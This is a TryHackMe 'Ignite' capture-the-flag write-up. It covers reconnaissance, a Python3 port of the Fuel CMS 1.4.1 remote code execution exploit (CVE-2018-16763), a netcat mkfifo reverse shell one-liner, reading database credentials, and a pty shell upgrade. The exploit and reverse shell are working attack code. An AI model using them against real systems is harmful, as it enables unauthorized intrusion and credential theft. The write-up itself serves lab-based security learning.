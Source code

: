 ```yaml
---
layout: default
title: Ignite
parent: TryHackMe
grand_parent: CTF (writeup)
last_modified_date: 2 FEB 2022 23:20
permalink: /ctf/tryhackme/ignite.html
---
```

CTF
{: .label}

Room: [tryhackme.com/room/ignite](https://tryhackme.com/room/ignite)

## Reconnaissance
![nmap](/images/ignite00.jpg)

nmap scan show it has webserver running


![fuel](/images/ignite01.jpg)
lets find exploit for fuel cms version 1.4

___
## Gain access

![searchsploit](/images/ignite02.jpg)

Exploit: [exploit-db.com/exploits/47138](https://www.exploit-db.com/exploits/47138)

Orginally the exploit is written in python2 & using burpsuite proxy. 
Python2 is dead so i change it to python3 & comment the proxy section since i will not using it.

The code:
``` python
# Exploit Title: fuel CMS 1.4.1 - Remote Code Execution (1)
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763


import requests
import urllib

url = "http://10.10.32.4"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.parse.quote(xxxx)+"%27%29%2b%27"
	proxy = {"http":"http://10.10.3"}
	r = requests.get(burp0_url)#, proxies=proxy)

	html = "<!DOCTYPE html>"
	htmlcharset = r.text.find(html)

	begin = r.text[0:20]
	dup = find_nth_overlapping(r.text,begin,2)

	print(r.text[0:dup])
```
lets bind reverse shell

Reference: [[pentestmonkey.net](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)]

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.58.14 4444>/tmp/f
```

![revshell](/images/ignite03.jpg)

flag 1 is user.txt so is located on user directory

## PrivEsc

I need to gain root privilege to get root.txt
the webpage said the database is located on ```fuel/application/config/database.php```. I dig into it to find root credentials.

![database](/images/ignite04.jpg)

because you can't change user in this shell. I need to change it.
``` bash
python -c 'import pty; pty.spawn("/bin/bash")'
```


Aaaaand it's done :D
